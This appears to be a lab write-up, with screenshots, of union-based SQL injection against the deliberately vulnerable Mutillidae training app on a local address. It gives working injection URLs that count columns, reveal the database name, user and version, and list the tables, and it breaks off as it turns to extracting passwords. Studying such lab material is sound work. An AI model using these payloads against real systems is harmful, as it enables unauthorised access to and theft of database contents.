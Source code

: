 The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details

![280077620-1cdaac6d-1c0b-4029-a547-6e29d7445dad](https://github.com/Gopikakarthik/sqlinjection/assets/121235427/fdaad3d0-b9e1-4b0a-bf96-b634c0ce36a7)

After adding the order by 6 into the existing url , the following error statement will be obtained: 

![280077737-25816f81-6a78-4b06-8819-bd2daf30fabd](https://github.com/Gopikakarthik/sqlinjection/assets/121235427/25313a4d-9679-4a9a-9f4b-4224d88f59df)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.

![280077847-28ad29bf-fe4d-459a-913f-c462a8d929f4](https://github.com/Gopikakarthik/sqlinjection/assets/121235427/a5e7052e-abbd-4846-837b-87823dbdf2ea)

As it is having 5 columns the query worked fine and it provides the correct result

![280078020-5d062bbd-0e97-4d15-b92c-9dc4a2752b7a](https://github.com/Gopikakarthik/sqlinjection/assets/121235427/70c8ee2a-6246-43fe-8331-da53e7ad81d7)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)

![280078131-538a284f-b69e-4a5a-b75d-9441fb36e0fd](https://github.com/Gopikakarthik/sqlinjection/assets/121235427/b11b7a60-bc0a-4633-8a07-9321edc993db)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information. 

![280078247-fc8e56c1-c491-4781-a8a5-600077ad8b01](https://github.com/Gopikakarthik/sqlinjection/assets/121235427/fdd786cc-2e53-4044-a427-84137904229c)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

Screenshot 2023-06-10 225314 The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![280078355-bc0d37cf-b94b-43c7-b18a-b241a4be951c](https://github.com/Gopikakarthik/sqlinjection/assets/121235427/c620da13-2657-497b-9ec7-e825142b4273)

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

